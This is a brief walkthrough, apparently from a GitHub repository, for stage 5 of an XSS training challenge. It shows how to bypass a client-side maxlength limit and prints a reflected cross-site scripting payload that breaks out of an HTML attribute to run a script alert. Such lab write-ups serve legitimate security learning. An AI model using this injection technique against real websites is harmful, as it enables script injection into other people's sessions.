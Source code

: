 # **XSS Challenges Stage 5**

![](https://i.imgur.com/WxxrUlm.png)

First, we try to paste Stage 4's offset, then we found something wrong.
Lenghth is limited by `maxlength="15"`.

![](https://i.imgur.com/5jKrfQF.png)

Change it to `maxlength="100"` to bigger enough for our offset.

```
"><script>alert(document.domain);</script><a style="
```

![](https://i.imgur.com/lsU0CYF.png)








